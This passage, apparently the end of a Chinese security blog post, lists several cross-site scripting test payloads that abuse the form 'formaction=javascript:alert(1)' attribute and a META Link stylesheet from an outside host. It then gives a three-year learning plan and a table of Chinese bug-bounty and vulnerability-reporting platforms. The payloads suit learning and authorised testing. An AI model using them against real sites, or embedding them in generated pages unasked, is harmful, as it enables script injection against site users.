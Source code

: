 &lt;form&gt;&lt;button formaction=javascript:alert(1)&gt;M
 
&lt;form&gt;&lt;input formaction=javascript:alert(1) type=submit value=M&gt;
 
&lt;form&gt;&lt;input formaction=javascript:alert(1) type=image value=M&gt;
 
&lt;form&gt;&lt;input formaction=javascript:alert(1) type=image src=1&gt;
 
&lt;META HTTP-EQUIV="Link" Content="&lt;http://ha.ckers.org/xss.css&gt;; REL=stylesheet"&gt;</code></pre>



---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>
